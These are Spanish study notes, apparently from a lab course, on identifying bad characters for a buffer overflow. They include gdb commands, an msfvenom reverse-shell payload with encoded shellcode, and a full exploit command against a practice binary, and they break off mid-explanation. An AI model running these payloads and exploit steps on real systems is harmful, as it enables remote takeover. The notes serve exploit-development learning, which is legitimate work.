 ## Concepto
Los *bad characters* son bytes que, por la forma en que la aplicación procesa la entrada (por ejemplo, terminación de cadenas, sanitización, etc.), se corrompen o modifican durante el envío. Esto impide que el payload se copie de forma íntegra a la memoria.

## Generación de la Lista Completa
Se define una variable con todos los bytes del `0x00` al `0xff`:

```bash
CHARS="$(printf '\\x%02x' {0..255})"
```

Para contar el número de bytes:

```bash
echo $CHARS | sed 's/\\x/ /g' | wc -w
```

## Prueba de Envío y Detección
Se envía el payload al programa vulnerable, incluyendo el bloque de caracteres:

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "<CHARS>" + "\x66" * 4')
```

*Reemplazar `<CHARS>` por la secuencia completa.*

Luego, inspeccionamos la memoria para verificar el estado de la secuencia:

```bash
(gdb) x/2000xb $esp+500
```

## Generando ShellCode
- con msfvenom: `GNT@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>`

```bash
GNT@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode


GNT@htb[/htb]$ cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
```
- Explotando... : `gdb --args ./bow $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xbe\x97\x4c\xf2\x9c\xd9\xf7\xd9\x74\x24\xf4\x5f\x33\xc9\xb1\x12\x83\xc7\x04\x31\x77\x0e\x03\xe0\x42\x10\x69\x3f\x80\x23\x71\x6c\x75\x9f\x1c\x90\xf0\xfe\x51\xf2\xcf\x81\x01\xa3\x7f\xbe\xe8\xd3\xc9\xb8\x0b\xbb\xb6\x3a\xec\x3a\x21\x39\xec\x46\xd8\xb4\x0d\x06\x7c\x97\x9c\x35\x32\x14\x96\x58\xf9\x9b\xfa\xf2\x6c\xb3\x89\x6a\x19\xe4\x42\x08\xb0\x73\x7f\x9e\x11\x0d\x61\xae\x9d\xc0\xe2" + "\x66" * 4')`
- Llenamos el buffer con el caracter `\x55`, U en ascii.
    - Lo utilizamos para alcanzar el instruction pointer sin alterar la ejecución.
- El calculo es así: